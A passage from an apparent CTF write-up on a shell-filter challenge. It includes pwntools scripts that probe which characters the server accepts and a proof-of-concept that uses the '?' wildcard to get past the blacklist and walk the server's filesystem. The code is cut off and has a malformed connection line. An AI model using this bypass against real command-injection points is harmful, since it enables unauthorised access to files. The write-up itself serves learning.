After experimenting with it, i found out that almost all the characters have been banned. So our initial step is to find out what characters are allowed.

#### Characters that are allowed

```python
import string

whitelist = []
for c in string.printable:
    io = remote("Connection: 52**.59.124.14", 500
    io.sendline(c.encode())
    if b"illegal" not in io.recvline():
        whitelist.append(c)
    io.close()

print(whitelist)
```

Using the script above, we get the allowed characters are `0cnCN./?`. So, after that, i test some characters and while testing `.` character, i came to realization that the server was executing `ls` command.

### ![images](https://hackmd.io/_uploads/rk0ay-LCT.png)

When i input `0cn` to the server, the server tells us what to do. We have to look for another folder named `0cn` in the filesystem with the restriction that we can only use a few characters.

Fortunately, one of the allowed characters are `?`. On unix shells such as bash, `?` character is used for wildcard that matches a single character. So, we will replace all illegal characters with `?` character. Finally, we can use DFS or BFS to search the directory.

#### POC

```python
#!/usr/bin/env python3

from pwn import *


def replace_blacklisted(s):
    res = b""
    for b in s:
        if b not in whitelist:
            res += b"?"
        else:
            res += bytes([b])
    return res


whitelist = b"0cnCN./?"


paths = [b"."]

context.log_level = "WARN"
prog = log.progress("Current path", level=logging.WARN)
for path in paths:
    prog.status(path.decode())
    io = remote("Connection: 52**.59.124.14", 500
    io.sendline(replace_blacklisted(path))
    resp = io.recvall()
    if b"ENO" not in resp:
        if b"Cannot access" not in resp:
            for p in resp.split(b"\n"):
                if p != b"":
```